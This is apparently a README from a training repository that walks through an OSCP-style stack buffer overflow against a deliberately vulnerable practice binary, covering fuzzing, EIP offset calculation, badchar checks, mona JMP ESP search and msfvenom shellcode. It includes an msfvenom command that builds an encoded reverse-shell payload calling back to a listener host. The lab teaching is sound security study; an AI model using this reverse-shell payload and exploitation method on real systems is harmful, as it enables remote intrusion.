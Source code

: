 # OSCP-like-buffer-overflow
OSCP-like buffer overflow

* Immunity Debugger http://www.immunityinc.com/products/debugger/
* Mona.py https://github.com/corelan/mona

To avoid the error message saying "The program can't start because VCRUNTIME140.dll is missing from your computer", make sure whether you have the x86 version of Microsoft Visual C++ Redistributable preinstalled on your Windows virtual machine.
Once we've got everything prepared, we can fire up the Immunity Debugger and open our target binary.

## 1. Fuzzing the binary
Firstly, we can run the `hello.py` script to verify whether the application responds to us (not necessary)

Then we run the `fuzzer.py` script to identify the crashing point

## 2. Calculating the offset from stack pointer
After finding the crashing point, we will calculate the offset to the EIP address. Start with generating a string with the pattern_create.rb (/usr/share/metasploit-framework/tools/exploit/pattern_create.rb)
```
ruby pattern_create.rb -l 1024
```

Use the pattern_offset
```
ruby pattern_offset.rb -q 39653138
```

## Determining Badchars
In this particular case, the vulnerable function is *sprintf* (it handles strings). Given the fact that ASCII strings are terminated with a null-byte ("\x00"), we put it at the top of the list.
The newline character is used by handleConnection() to chunk the messages we send to it. 
So the starting point for our badchars is "\n" alternatively known as "\x0A"

To be sure that we haven't missed any other we will utilize our python script `badchars.py`.

To identify badchars we can also use `!mona bytearray`

## Identifying JMP ESP gadget
After determining the badchars of the application, we will go straight to identification of the JMP ESP that will be responsible for changing the natural flow of application to run our shellcode (which we will insert into the stack).

In assembly, the OPCODE for JMP ESP is `\xff\xe4`. Using mona we will locate the register in the application that points to this OPCODE. Thanks to that, we can change the flow o the application to run our shellcode, rewriting the stack from its base (EBP).

`!mona modules` to identify the unprotected modules

`!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0A"` to identify which pointers do not have the badchars found.

At this point we might be in possesion of the correct JMP ESP address. If we want to check, we simply run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

## Generating shellcode
Now it's time to come up with some interesting bytecode to put on the stack. Metasploit has a built-in tool called msfvenom that can produce shellcode for us.
```
msfvenom -p windows/exec --list-options
```

![](https://raw.githubusercontent.com/d15rup7or/OSCP-like-buffer-overflow/master/img/msfvenom%20-p%20windowsexec%20--list-options.PNG)

For the purpose of the training, we will provide the following options to msfvenom:
* -p windows/exec (we want Windows shellcode that will execute a command)
* -b '\x00\x0A' (the list of bad characters we determined earlier, so that msfvenom can avoid having them in the generated shellcode
* -f python (output shellcode in a Python-friendly format)
* CMD=calc.exe EXITFUNC=thread (options for the windows/exec payload - in this case starting the calc.exe)

```
msfvenom -p windows/exec -b '\x00\x0A' \ -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

#### For reverse shell connection:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.21.128 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
```
The shellcode contains machine code for a function that invokes a shell. The goal is to copy it into the buffer variable and then overwrite the return address

`EXITFUN=thread` preventes the shellcode from crashing the application when executing our shellcode

Now we just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
